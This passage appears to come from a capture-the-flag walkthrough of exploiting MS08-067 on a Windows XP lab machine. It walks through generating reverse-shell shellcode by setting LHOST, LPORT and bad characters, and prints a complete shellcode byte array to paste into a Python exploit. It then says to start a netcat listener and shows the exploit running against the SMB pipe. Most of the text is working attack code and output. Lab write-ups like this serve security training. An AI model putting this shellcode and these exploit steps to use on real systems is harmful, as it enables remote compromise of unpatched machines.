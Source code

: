 You have to specify the **LHOST** and **LPORT**. I have specified some bad characters not to use using the **-b** option, the exit function as **thread**, the output format in **C**, the architechture as **32 bit** and finally the platform as **windows** obviously.

Now you need to copy the output and paste it on the **shellcode** variable of the **python** exploit.

After editing, the shellcode will look something like this :

```
shellcode = b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
shellcode += b"\x4d\xfe\xf4\xee\x83\xee\xfc\xe2\xf4\xb1\x16\x76\xee\x4d\xfe"
shellcode += b"\x94\x67\xa8\xcf\x34\x8a\xc6\xae\xc4\x65\x1f\xf2\x7f\xbc\x59"
shellcode += b"\x75\x86\xc6\x42\x49\xbe\xc8\x7c\x01\x58\xd2\x2c\x82\xf6\xc2"
shellcode += b"\x6d\x3f\x3b\xe3\x4c\x39\x16\x1c\x1f\xa9\x7f\xbc\x5d\x75\xbe"
shellcode += b"\xd2\xc6\xb2\xe5\x96\xae\xb6\xf5\x3f\x1c\x75\xad\xce\x4c\x2d"
shellcode += b"\x7f\xa7\x55\x1d\xce\xa7\xc6\xca\x7f\xef\x9b\xcf\x0b\x42\x8c"
shellcode += b"\x31\xf9\xef\x8a\xc6\x14\x9b\xbb\xfd\x89\x16\x76\x83\xd0\x9b"
shellcode += b"\xa9\xa6\x7f\xb6\x69\xff\x27\x88\xc6\xf2\xbf\x65\x15\xe2\xf5"
shellcode += b"\x3d\xc6\xfa\x7f\xef\x9d\x77\xb0\xca\x69\xa5\xaf\x8f\x14\xa4"
shellcode += b"\xa5\x11\xad\xa1\xab\xb4\xc6\xec\x1f\x63\x10\x96\xc7\xdc\x4d"
shellcode += b"\xfe\x9c\x99\x3e\xcc\xab\xba\x25\xb2\x83\xc8\x4a\x01\x21\x56"
shellcode += b"\xdd\xff\xf4\xee\x64\x3a\xa0\xbe\x25\xd7\x74\x85\x4d\x01\x21"
shellcode += b"\xbe\x1d\xae\xa4\xae\x1d\xbe\xa4\x86\xa7\xf1\x2b\x0e\xb2\x2b"
shellcode += b"\x63\x84\x48\x96\xfe\xe4\x43\xef\x9c\xec\x4d\xff\x4f\x67\xab"
shellcode += b"\x94\xe4\xb8\x1a\x96\x6d\x4b\x39\x9f\x0b\x3b\xc8\x3e\x80\xe2"
shellcode += b"\xb2\xb0\xfc\x9b\xa1\x96\x04\x5b\xef\xa8\x0b\x3b\x25\x9d\x99"
shellcode += b"\x8a\x4d\x77\x17\xb9\x1a\xa9\xc5\x18\x27\xec\xad\xb8\xaf\x03"
shellcode += b"\x92\x29\x09\xda\xc8\xef\x4c\x73\xb0\xca\x5d\x38\xf4\xaa\x19"
shellcode += b"\xae\xa2\xb8\x1b\xb8\xa2\xa0\x1b\xa8\xa7\xb8\x25\x87\x38\xd1"
shellcode += b"\xcb\x01\x21\x67\xad\xb0\xa2\xa8\xb2\xce\x9c\xe6\xca\xe3\x94"
shellcode += b"\x11\x98\x45\x14\xf3\x67\xf4\x9c\x48\xd8\x43\x69\x11\x98\xc2"
shellcode += b"\xf2\x92\x47\x7e\x0f\x0e\x38\xfb\x4f\xa9\x5e\x8c\x9b\x84\x4d"
shellcode += b"\xad\x0b\x3b"
```

Now that it is done, it is time to run the exploit. But before that, we need to specify the exact version of **Windows**. 

Since we know it is **Windows XP**, let us begin with option 6 i.e **Windows XP SP3 English (NX)**. If that fails, we can try the other ones.

Also do not forget to set up a netcat listener on the **LPORT** you specified.

```
(py2) root@kali:/opt/ms08_067# python ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

